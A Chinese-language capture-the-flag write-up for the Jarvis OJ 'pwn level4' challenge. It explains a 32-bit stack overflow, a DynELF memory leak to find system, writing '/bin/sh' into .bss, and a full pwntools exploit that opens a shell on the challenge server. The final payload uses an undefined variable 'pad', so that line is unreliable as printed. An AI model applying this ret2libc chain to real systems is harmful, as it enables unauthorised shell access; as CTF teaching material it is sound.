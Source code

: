# Jarvisoj--pwn--level4

## 题目分析

国际惯例，checksec一下

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

没有canary，没有地址随机化且栈不可执行，应该是栈溢出。

ida查看一波

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

```c++
ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  return read(0, &buf, 0x100u);
}
```

此处存在溢出。但该elf中没有system，也没有/bin/sh，连个libc文件都不给。

那只能用leak泄露内存的手段(换另一种方式泄露出system的地址)，然后把'/bin/sh'写进bss段或者data段。

这里我们运用DynELF模块。

### DynELF--Resolving remote functions using leaks

解析加载的，动态链接的ELF二进制文件中的symbols。给定一个可以在任意地址泄漏数据的函数，可以解析任何加载库中的任何symbols。

参数：

- **泄漏**（[*MemLeak*](https://pwntools.readthedocs.io/en/stable/memleak.html#pwnlib.memleak.MemLeak)） - 泄漏内存的pwnlib.memleak.MemLeak实例
- **pointer**（[*int*](https://docs.python.org/2.7/library/functions.html#int)） - 指向加载的ELF文件的指针
- **elf**（[*str*](https://docs.python.org/2.7/library/functions.html#str)*，*[*ELF*](https://pwntools.readthedocs.io/en/stable/elf/elf.html#pwnlib.elf.elf.ELF)） - 磁盘上ELF文件的路径，或已加载的路径`pwnlib.elf.ELF`。
- **libcdb**（[*bool*](https://docs.python.org/2.7/library/functions.html#bool)） - 尝试使用libcdb加速libc查找

## 利用思路

利用DynELF模块找到system的地址，但找不到'/bin/sh'这个字符串的地址。于是我们应控制read函数把'/bin/sh'写进bss段中。

### 第一步 利用DynELF泄露内存

查看栈

```
-00000088 buf             db ?
-00000087                 db ? ; undefined
。。。。。。。。。。。。。。。。。。。。。。。。
-00000002                 db ? ; undefined
-00000001                 db ? ; undefined
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

看出payload = ‘a' * (0x88+4) + ....

我们构造一下leak

```python
def leak(address):
    payload1='a'*(0x88+4)+p32(write_plt)+p32(vul_addr)+p32(1)+p32(address)+p32(4)
    conn.sendline(payload1)
    data=conn.recv(4)
    return data 
d=DynELF(leak,elf)
```

### 第二步 求出system函数的地址和把'/bin/sh'写进bss段

查看ida，寻找bss段

```
.bss:0804A024 _bss            segment byte public 'BSS' use32
.bss:0804A024                 assume cs:_bss
.bss:0804A024                 ;org 804A024h
.bss:0804A024                 assume es:nothing, ss:nothing, ds:_data, fs:nothing, gs:nothing
.bss:0804A024                 public __bss_start
.bss:0804A024 __bss_start     db ?                    ; DATA XREF: deregister_tm_clones+5↑o
.bss:0804A024                                         ; deregister_tm_clones+1E↑o ...
.bss:0804A024                                         ; Alternative name is '__TMC_END__'
.bss:0804A024                                         ; completed.7181
.bss:0804A024                                         ; _edata
.bss:0804A025                 db    ? ;
.bss:0804A026                 db    ? ;
.bss:0804A027 unk_804A027     db    ? ;               ; DATA XREF: deregister_tm_clones↑o
.bss:0804A027 _bss            ends
```

可知 0x0804a024

也可以 elf.symbols['__bss_start'] 求出地址

system_addr = d.lookup('system', 'libc')

read_addr = elf.symbols['read']

### 第三步 就是getshell了

exp:

```python
from pwn import *
conn=remote('pwn2.jarvisoj.com','9880')
e=ELF('./level4')

write_plt=e.symbols['write']
vul_addr=0x804844b
bss_addr=0x0804a024

def leak(address):
    payload1='a'*(0x88+4)+p32(write_plt)+p32(vul_addr)+p32(1)+p32(address)+p32(4)
    conn.sendline(payload1)
    data=conn.recv(4)
    return data 
    
d=DynELF(leak,elf=ELF('./level4'))

system_addr=d.lookup('system','libc')
print hex(system_addr)
read_plt=e.symbols['read']

payload2='a'*(0x88+4) +p32(read_plt)+p32(vul_addr)+p32(0)+p32(bss_addr)+p32(8)
conn.sendline(payload2)
conn.send("/bin/sh\x00")
payload3="a"*pad+"BBBB"+p32(system_addr)+'dead'+p32(bss_addr)
conn.sendline(payload3)
conn.interactive()
```

